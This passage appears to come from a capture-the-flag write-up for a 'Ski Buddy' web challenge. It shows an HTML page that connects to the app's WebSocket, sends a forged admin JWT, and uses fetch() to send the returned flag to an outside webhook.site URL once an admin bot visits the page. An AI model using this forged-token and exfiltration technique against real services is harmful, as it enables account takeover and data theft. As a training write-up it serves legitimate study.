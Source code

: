 Now, we just need to modify the `test.html` file previously to send the new JWT token over:

```html
<script>
    const ws = new WebSocket('ws://ski-buddy-app:8000/ws');
    ws.onmessage = (e) => {
        const data = JSON.parse(e.data);

        if (data.type === "token") {
            ws.send(JSON.stringify({ type: "auth", token: "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlcm5hbWUiOiJhZG1pbiIsImlhdCI6MTUxNjIzOTAyMn0.lDM0EwlIImPfZa_Yx2-j9-StPLJEuTYHFjK_ukbnjbg" }));
        }
        
        if (data.type === "flag") {
            fetch("https://webhook.site/bbd240d1-8cc3-43ac-a0aa-1b8251864662?flag=" + encodeURIComponent(data.message));
        }
    };
</script>
```

Afterwards, we just need to host the updated HTML file and have the admin bot visit it to get our flag via the webhook:

![Flag](./images/flag_revealed.png)

**Flag:** `grey{skibidi_toilet_2ea989edfabfe44f526d7edd0dd8df27}`

HTML File: [socket.html](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Greyhats%20Welcome%20CTF%202025/Ski%20Buddy/socket.html)